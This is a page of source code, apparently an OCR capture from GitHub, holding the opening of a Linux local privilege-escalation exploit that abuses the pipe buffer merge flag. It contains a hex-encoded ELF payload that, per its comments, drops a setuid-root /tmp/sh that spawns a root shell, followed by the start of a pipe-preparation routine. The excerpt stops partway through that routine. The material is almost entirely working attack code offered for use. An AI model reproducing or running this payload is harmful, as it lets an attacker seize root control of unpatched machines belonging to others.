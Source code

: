 ```java
// small (linux x86_64) ELF file matroshka doll that does;
//   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
//   write(fd, elfcode, elfcode_len)
//   chmod("/tmp/sh", 04755)
//   close(fd);
//   exit(0);
//
// the dropped ELF simply does:
//   setuid(0);
//   setgid(0);
//   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
  /*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
  0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
  0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
  0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
  0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
  0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
  0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
  0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
  0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
  0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
  0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
  0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
  0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
  0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
  0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
  0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
  0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
  0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
  if (pipe(p)) abort();

  const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
  static char buffer[4096];

  /* fill the pipe completely; each pipe_buffer will now have
     the PIPE_BUF_FLAG_CAN_MERGE flag */
  for (unsigned r = pipe_size; r > 0;) {
    unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
```